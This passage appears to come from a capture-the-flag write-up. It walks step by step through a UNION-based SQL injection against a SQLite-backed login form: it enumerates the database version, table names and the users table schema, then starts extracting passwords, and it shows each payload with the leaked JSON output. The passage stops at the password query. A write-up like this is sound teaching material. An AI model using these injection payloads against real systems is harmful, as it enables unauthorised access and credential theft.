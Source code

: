 ```json
{"error":"The password for 1 is incorrect! 3.22.0"}
```

Let's move onto table name.

user=' union select 1,2,3,group_concat(tbl_name) from sqlite_master;-- -&password=123

```json
{"error":"The password for 1 is incorrect! users"}
```

Next to find column names I took a look at PayloadAllTheThings and modified it!

user=' union select 1,2,3,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users';-- -&password=123

```json
{"error":"The password for 1 is incorrect! CREATE TABLE users(\nname text not null,\npassword text not null,\nadmin int not null,\nnotes text not null)"}
```

We got 4 column names. Let's start with password.

user=' union select 1,2,3,group_concat(password) FROM users;-- -&password=123

```json
```